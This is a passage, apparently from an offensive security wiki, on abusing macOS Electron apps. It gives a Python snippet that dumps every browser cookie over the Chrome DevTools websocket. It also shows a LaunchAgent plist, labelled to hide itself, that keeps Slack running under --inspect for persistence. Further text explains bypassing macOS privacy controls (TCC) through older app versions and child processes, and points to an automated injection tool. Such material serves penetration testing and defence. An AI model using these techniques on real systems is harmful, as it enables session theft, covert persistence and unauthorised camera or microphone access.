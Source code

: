 ```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/85976D59050BFEFDBA48204E3D865D00", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv()
```



### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

```xml
<dict>
    <key>ProgramArguments</key>
    <array>
        <string>/Applications/Slack.app/Contents/MacOS/Slack</string>
        <string>--inspect</string>
    </array>
    <key>Label</key>
    <string>com.hacktricks.hideme</string>
    <key>RunAtLoad</key>
    <true/>
</dict>
```

## TCC Bypass abusing Older Versions

> [!TIP]
> The TCC daemon from macOS doesn't check the executed version of the application. So if you **cannot inject code in an Electron application** with any of the previous techniques you could download a previous version of the APP and inject code on it as it will still get the TCC privileges (unless Trust Cache prevents it).

## Run non JS Code

The previous techniques will allow you to run **JS code inside the process of the electron application**. However, remember that the **child processes run under the same sandbox profile** as the parent application and **inherit their TCC permissions**.\
Therefore, if you want to abuse entitlements to access the camera or microphone for example, you could just **run another binary from the process**.

## Automatic Injection

- [**electroniz3r**](https://github.com/r3ggi/electroniz3r)

The tool [**electroniz3r**](https://github.com/r3ggi/electroniz3r) can be easily used to **find vulnerable electron applications** installed and inject code on them. This tool will try to use the **`--inspect`** technique:

You need to compile it yourself and can use it like this:
